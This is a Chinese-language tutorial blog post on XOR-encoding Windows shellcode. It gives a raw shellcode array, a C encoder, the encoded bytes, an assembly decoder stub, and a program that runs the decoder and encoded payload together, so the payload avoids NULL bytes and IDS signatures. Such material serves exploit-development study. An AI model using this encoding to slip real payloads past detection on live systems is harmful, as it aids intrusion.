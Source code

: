 ```yaml
---
layout: post
title: 对shellcode编码
categories:
- SHELLCODE 
---
```


很多时候shellcode都会受到限制

例如所有字符串函数都会对NULL字节进行限制，通常我们要选择特殊的指令避免在shellcode中直接出现NULL字节

还有的函数要求shellcode中必须为可见字符的ascii值以及一些基于特征的IDS会对常见shellcode进行拦截。

##### 如何编码
- 完成shellcode的逻辑
- 使用编码技术队shellcode编码
- 构造十几字节的解码程序放在shellcode开始执行的位置

	/*
	*  对shellcode简单的编码程序
	*/
	
	#include <windows.h>
	#include <stdio.h>
	
	/* 要加密的代码 */
	char shellcode[] = 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x4C\x4E\x45\x4F\x68\x53\x48\x45\x4C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
	
	
	/* 采用异或简单编码 */
	void encoder(char* input, unsigned char key, int display_flag)
	{
		int i = 0; 
		int len = 0;
		FILE* fp;
		unsigned char* output;
		len = strlen(input);
		output = (unsigned char*)malloc(len+1);
	
		if (!output) {
			printf("Memory error!\n");
			exit(0);
		}
	
		for (i = 0; i < len; ++i) {
			output[i] = input[i]^key;
		}
	
		if (!(fp = fopen("encode.txt", "w+"))) {
			printf("output file create error!\n");
			exit(0);
		}
	
		fprintf(fp, "\"");
		
		for (i = 0; i < len; ++i) {
			fprintf(fp, "\\x%0.2x", output[i]);
			if (0 == (i+1)%16) {
				fprintf(fp, "\"\n\"");
			}
		}
	
		fprintf(fp, "\";");
		fclose(fp);
	
		printf("dump the encode shellcode to encode.txt OK!\n");
		if (display_flag) {
			for (i = 0 ; i < len; ++i) {
				printf("\\x%0.2x", output[i]);
				if (0 == (i+1)%16) {
					printf("\n");
				}
			}
		}
	
		free(output);
	}
	
	
	int main()
	{
		encoder(shellcode, 0x44, 1);
		
		return 0;
	}
	
	
	
	/*
	encode.txt中的内容
	"\xb8\x2c\x2e\x4e\x7c\x5a\x2c\x27\xcd\x95\x0b\x2c\x76\x30\xd5\x48"
	"\xcf\xb0\xc9\x3a\xb0\x77\x9f\xf3\x40\x6f\xa7\x22\xff\x77\x76\x17"
	"\x2c\x31\x37\x21\x36\x10\x77\x96\x20\xcf\x1e\x74\xcf\x0f\x48\xcf"
	"\x0d\x58\xcf\x4d\xcf\x2d\x4c\xe9\x79\x2e\x4e\x7c\x5a\x31\x41\xd1"
	"\xbb\x13\xbc\xd1\x24\xcf\x01\x78\xcf\x08\x41\x3c\x47\x89\xcf\x1d"
	"\x64\x47\x99\x77\xbb\x03\xcf\x70\xff\x47\xb1\xdd\x4b\xfa\x42\x7e"
	"\x80\x30\x4c\x85\x8e\x43\x47\x94\x02\xaf\xb5\x7f\x10\x60\x58\x31"
	"\xa0\xcf\x1d\x60\x47\x99\x22\xcf\x78\x3f\xcf\x1d\x58\x47\x99\x47"
	"\x68\xff\xd1\x1b\xef\x13\x25\x79\x2e\x4e\x7c\x5a\x31\xed\x77\x9f"
	"\x17\x2c\x08\x0a\x01\x0b\x2c\x17\x0c\x01\x08\xcf\x80\x17\x14\x14"
	"\x17\xbb\x13\xb8\x17\xbb\x13\xbc";
		*/
	

-------------------------------------------------------------------------------

	/*
	* 解码程序
	*/
	#include <stdio.h>
	#include <windows.h>
	
	int main()
	{
		__asm {
			nop
			nop
			add eax, 0x14			;越过本段代码（本段代码刚好20字节）,eax直接指向被编码的shellcode
			xor ecx, ecx			;清空ecx
	decode_loop:
			mov bl, [ecx + eax]		;bx是16位,bl是8位即每次读取1个字节
			xor bl, 0x44			;这里的0x44就是在编码中用的key, 必须保持一致
			mov [eax + ecx], bl
	
			inc ecx					;下一个字节的下标
			cmp bl, 0x90			;读到的是不是NOP
			jne decode_loop			
	
			nop
			nop
		}
		return 0;
	}

###### 注意:
解码器认为shellcode的最后一个字节为0x90，所以编码前要注意在原始shellcode中加入一个字节0x90作为结尾，否则会产生错误


	/*	对shellcode进行编码并解码 */
	#include <stdio.h>
	
	char final_shellcode[] =
	"\x83\xC0\x14"
	"\x33\xC9"
	"\x8A\x1C\x01"
	"\x80\xF3\x44"
	"\x88\x1C\x08"
	"\x41"
	"\x80\xFB\x90"
	"\x75\xF1"		
	"\xb8\x2c\x2e\x4e\x7c\x5a\x2c\x27\xcd\x95\x0b\x2c\x76\x30\xd5\x48"
	"\xcf\xb0\xc9\x3a\xb0\x77\x9f\xf3\x40\x6f\xa7\x22\xff\x77\x76\x17"
	"\x2c\x31\x37\x21\x36\x10\x77\x96\x20\xcf\x1e\x74\xcf\x0f\x48\xcf"
	"\x0d\x58\xcf\x4d\xcf\x2d\x4c\xe9\x79\x2e\x4e\x7c\x5a\x31\x41\xd1"
	"\xbb\x13\xbc\xd1\x24\xcf\x01\x78\xcf\x08\x41\x3c\x47\x89\xcf\x1d"
	"\x64\x47\x99\x77\xbb\x03\xcf\x70\xff\x47\xb1\xdd\x4b\xfa\x42\x7e"
	"\x80\x30\x4c\x85\x8e\x43\x47\x94\x02\xaf\xb5\x7f\x10\x60\x58\x31"
	"\xa0\xcf\x1d\x60\x47\x99\x22\xcf\x78\x3f\xcf\x1d\x58\x47\x99\x47"
	"\x68\xff\xd1\x1b\xef\x13\x25\x79\x2e\x4e\x7c\x5a\x31\xed\x77\x9f"
	"\x17\x2c\x08\x0a\x01\x0b\x2c\x17\x0c\x01\x08\xcf\x80\x17\x14\x14"
	"\x17\xbb\x13\xb8\x17\xbb\x13\xbc";
	/* 前半段是解码程序，后半段是已经被编码的shellcode */
	
	void main()
	{
		__asm {
			lea eax, final_shellcode
			push eax
			ret
		} 
	
	}
	



OK！程序没有问题

